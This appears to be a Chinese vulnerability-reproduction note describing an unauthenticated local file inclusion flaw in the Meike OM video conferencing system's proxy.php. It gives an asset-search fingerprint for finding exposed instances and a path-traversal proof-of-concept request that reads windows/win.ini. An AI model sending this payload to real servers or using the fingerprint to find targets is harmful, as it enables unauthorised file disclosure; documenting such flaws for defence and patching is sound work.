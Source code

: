 # 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

<a-checkbox checked>魅课OM视频会议系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="OMEETING-OM视频会议"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630909738237-5162ec96-62e1-4c6b-85ed-f68afa1ffb59.png)

验证POC

```python
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630910015996-7abd7e35-7bb3-4fdc-b0b9-e203546a0de2.png)